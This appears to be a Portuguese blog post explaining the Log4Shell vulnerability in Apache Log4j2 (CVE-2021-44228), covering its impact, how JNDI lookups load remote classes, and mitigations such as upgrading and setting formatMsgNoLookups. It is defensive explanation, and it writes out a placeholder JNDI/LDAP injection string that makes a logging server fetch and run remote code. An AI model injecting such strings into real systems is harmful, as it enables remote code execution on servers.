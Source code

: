 ```yaml
---
layout: post
title:  "Log4Shell - 0 Day do Log4j"
author: caubit
categories: [ cybersecurity, web ]
image: assets/images/8.jpg
---
```

## Resumo:
- Esta é uma vulnerabilidade que possibilita a execução remota de código e é simples de explorar;
- Já existe correção disponível;
- Muitos WAF podem ter regras habilitadas para possibilitar a mitigação;

## Qual o impacto?

Baseado nas informações dispostas no [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228), as versões do Apache Log4j2 <= 2.14.1, possuem features JNDI com falhas de segurança que não protegem contra os ataques direcionados ao LDAP e DSN em consumo endpoint remotos. O que possibilita um invasor executar um código remoto manipulando uma mensagem de log gerada pelo log4j2 .

O impacto dessa vulnerabilidade é extremamente grande, visto que o Apache Log4j2 é massivamente utilizado por programadores Java para registro em trilhas de auditoria. 

## Explicando:

![fluxo](/assets/images/The.log4j.JNDI.Attack.png)

As versões modernas do Log4J2 permitem pesquisas JNDI, que permitem consultas a interface LDAP e DNS para enriquecimento dos Logs, o que pode acabar permitindo o apontamento ( URI ) para uma classe que pode ser carregada de forma indevida.

```` 
log.info(“Usuario logado: {}”, login);
```` 

Onde o user nesse caso pode ser um apontamento para uma classe remota que será instanciada no momento do ataque.
Caso o atacante insira o código no campo login o valor

```` 
${jndi:ldap://<endereco>:<porta>/<uri>}
```` 

Quando o valor login é passado como a string acima, o Log4J2 faz uma requisição ao endereço passado e recebe como retorno um objecto ( DN ) que  possui campos que instruem a obtenção da classe remota. Finalmente, o log4j carrega em memória a classe e a executa.

Se a classe apontada for maliciosa um atacante pode no momento a construção da classe executar comandos no ambiente local do servidor, podendo assim executar, por exemplo, um shell reverso ou instalação de malwares.

## O que pode ser feito?

* Atualizar a biblioteca Apache Log4J para a versão 2.15;
* Caso tenha um WAF, atualizar as regras do WAF para bloqueio do payload citado;
* Desabilitar a funcionalidade de pesquisa para servidores remoto do seu log4j formatMsgNoLookups=true

## Fontes:
[https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j](https://www.lunasec.io/docs/blog/log4j-zero-day/)

[https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j)

[https://www.elastic.co/pt/blog/detecting-log4j2-with-elastic-security](https://www.elastic.co/pt/blog/detecting-log4j2-with-elastic-security)

[https://www.elastic.co/pt/blog/detecting-log4j2-with-elastic-security](https://www.elastic.co/pt/blog/detecting-log4j2-with-elastic-security)

[https://www.crowdstrike.com/blog/log4j2-vulnerability-analysis-and-mitigation-recommendations/](hhttps://www.crowdstrike.com/blog/log4j2-vulnerability-analysis-and-mitigation-recommendations/)

[https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)